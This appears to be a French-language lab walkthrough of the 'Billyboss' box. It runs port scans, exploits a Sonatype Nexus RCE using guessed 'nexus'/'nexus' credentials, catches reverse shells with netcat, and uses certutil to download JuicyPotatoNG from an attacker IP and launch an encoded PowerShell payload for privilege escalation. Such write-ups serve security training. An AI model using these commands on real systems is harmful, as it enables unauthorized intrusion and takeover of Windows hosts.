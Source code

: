 # Billyboss

	sudo masscan -p1-65535,U:1-65535 192.168.198.61 -e tun0 > ports.txt
	sudo nmap -p- -sV -T4 192.168.198.61 -oN nmap.txt
	feroxbuster --silent -u http://192.168.198.61
	
Scans classiques.

    PORT STATE SERVICE VERSION  
    21/tcp open ftp Microsoft ftpd  
    80/tcp open http Microsoft IIS httpd 10.0  
    135/tcp open msrpc Microsoft Windows RPC  
    139/tcp open netbios-ssn Microsoft Windows netbios-ssn  
    445/tcp open microsoft-ds?  
    5040/tcp open unknown  
    8081/tcp open http Jetty 9.4.18.v20190429  
    49664/tcp open msrpc Microsoft Windows RPC  
    49665/tcp open msrpc Microsoft Windows RPC  
    49666/tcp open msrpc Microsoft Windows RPC  
    49667/tcp open msrpc Microsoft Windows RPC  
    49668/tcp open msrpc Microsoft Windows RPC  
    49669/tcp open msrpc Microsoft Windows RPC

Il y a un système d'upload de paquets avec l'URL http://192.168.198.61/v3/index.json mais cela semble solide.

En revanche le port 8081 héberge un site qui semble vulnérable à une RCE : https://www.exploit-db.com/exploits/49385 

Le problème est que cet exploit nécessite d'être authentifié, mais j'ai eu l'indice qu'il fallait faire du guessing sur ce point.  Les credentials par défaut et les variantes n'ont pas fonctionné. 
</br>Après un plus gros indice j'ai fini par trouver : c'est tout simplement "nexus" / "nexus"

Il n'y a plus qu'à exploiter, en remplaçant bien les credentials ainsi que la commande dans l'exploit : 

	python ~/000_exploits/exploit_Sonatype-Nexus_RCE.py 
	...
	rlwrap nc -nvlp 443
	type C:\Users\nathan\Desktop\local.txt
	
### Élévation de privilèges classique avec une Potato : 

	certutil.exe -urlcache -f http://192.168.45.236/JuicyPotatoNG.exe ./JuicyPotatoNG.exe
	./JuicyPotatoNG.exe -t * -p "C:\Windows\system32\cmd.exe" -a "/c powershell -nop -w hidden -e JABjAGwAaQB...ACgAKQA="
	...
	rlwrap nc -nvlp 443
	type C:\Users\Administrator\Desktop\proof.txt



